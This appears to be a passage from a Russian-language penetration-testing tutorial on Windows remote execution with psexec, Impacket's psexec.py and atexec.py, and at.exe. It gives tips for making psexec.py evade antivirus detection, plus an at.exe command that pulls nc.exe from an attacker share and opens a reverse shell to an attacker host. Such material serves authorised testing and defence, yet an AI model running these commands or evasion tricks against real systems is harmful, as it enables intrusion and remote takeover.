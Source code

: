 > psexec.exe -u admin -i 2 \\target shutdown /l

**Impacket**

Impacket — это набор классов Python для работы с сетевыми протоколами. Impacket ориентирован на обеспечение
низкоуровневого программного доступа к пакетам, а для некоторых протоколов (например, SMB1-3 и MSRPC) — на саму
реализацию протокола. Пакеты могут быть созданы с нуля, а также проанализированы на основе необработанных данных, а
объектно-ориентированный API упрощает работу с глубокими иерархиями протоколов.
Библиотека предоставляет набор инструментов в качестве примеров того, что можно сделать в контексте этой библиотеки.

**Psexec.py**

    Происхождение: Python-пакет impacket
    Риск детектирования антивирусом: есть
    Используемые порты: 445/TCP

Отличная альтернатива для пользователей Linux, однако этот инструмент почти наверняка поднимет антивирусную тревогу. Как
было сказано, все дело в службе, которая копируется на удаленный хост.

Это можно исправить, указав в реализации метода createService() в
/usr/local/lib/python3.7/dist-packages/impacket/examples/serviceinstall.py произвольную команду, которая будет выполнена
вместо запускаемой службы удаленного администрирования.

Чтобы psexec.py не скопировал заметный антивирусу компонент, указываем принудительно, какой файл использовать в качестве
службы. И, поскольы уже вручную прописали команду, этим файлом может быть что угодно:

psexec.py -file somefile.txt admin@target

Таким образом, мы напрямую выполнили команду, что, конечно же, не вызовет реакции со стороны антивирусов. Однако
подобная модификация psexec лишает нас того удобства использования, которое было изначально.

**Atexec.py / at.exe**

    Происхождение: Python-пакет impacket / встроенный компонент Windows
    Риск детектирования антивирусом: отсутствует
    Используемые порты: 445/TCP

Служба планировщика заданий Windows, доступная через smb-пайп atsvc. Позволяет удаленно поместить в планировщик задачу,
которая выполнится в указанный момент.

> DCE/RPC — удаленный шедулер, работает на Windows Vista и выше. В обоих случаях это не интерактивное средство
> удаленного исполнения кода. При использовании at.exe происходит слепое исполнение команд:

> at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"

А вот для atexec.py команда выполнится с результатом: atexec.py admin@target ipconfig
